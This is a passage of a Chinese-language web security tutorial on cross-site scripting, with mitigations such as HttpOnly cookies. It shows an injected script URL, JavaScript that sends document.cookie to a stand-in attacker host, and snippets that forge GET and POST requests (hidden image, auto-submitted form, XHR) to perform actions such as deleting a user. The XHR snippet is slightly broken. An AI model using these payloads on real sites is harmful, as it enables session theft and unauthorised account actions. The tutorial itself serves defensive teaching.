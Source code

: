 首先通过用户触发，加载一个远程的脚本文件

`http://www.kezaihui.com/test.php?param=<script src=http://www.xxx.com/xss.js>`

```JavaScript
var img = new Image()
img.src = 'http://www.xxx.com/log?cookie=' + encodeURIComponent(document.cookie)
img.style = 'display: block;height: 0; width: 0;'
document.body.appendChild(img)
```

**解决办法**:
- Cookie的HttpOnly属性，指示浏览器不要在除HTTP（和 HTTPS)请求之外暴露Cookie。一个有HttpOnly属性的Cookie，不能通过非HTTP方式来访问，例如通过调用JavaScript(例如，引用 document.cookie），因此，不可能通过跨域脚本（一种非常普通的攻击技术）来偷走这种Cookie。

- 将Cookie与IP进行绑定。

### 构造GET与POST请求

比如正常删除某个用户的链接是

`http://www.zaihuiba.com/operation/accounts/?phone=15689890989&spell=avada_kedavra`

对于攻击者，只需要模拟一个GET请求，便能达到攻击的目的

```JavaScript
var img = new Image()
img.src = 'http://www.zaihuiba.com/operation/accounts/?phone=15689890989&spell=avada_kedavra'
img.style = 'display: block;height: 0; width: 0;'
document.body.appendChild(img)
```

### 构造POST请求

- 构造form表单，然后自动提交

```JavaScript
var xssForm = document.createElement('form')
xssForm.action = '/path'
xssForm.method = 'POST'
document.body.appendChild(xssForm)

var input1 = document.createElement('input')
input1.name = 'xxx'
input1.value = 'yyy'

xssForm.appendChild(input1)

xssForm.submit()

```
- 使用XHR

```JavaScript
var xhr;
if (window.XMLHttpRequest) {
    // code for IE7+, Firefox, Chrome, Opera, Safari
    xhr = new XMLHttpRequest();
} else {
    // code for IE6, IE5
    xhr = new ActiveXObject('Microsoft.XMLHTTP');
}

xhr.open('POST', '/path');
xhr.send('name=xxx&value=xxx');
xhr.onreadystatechange = function() {
    if (xhr.readyState == 4 && xmlhttp.status == 200) {
        // ..
    }
```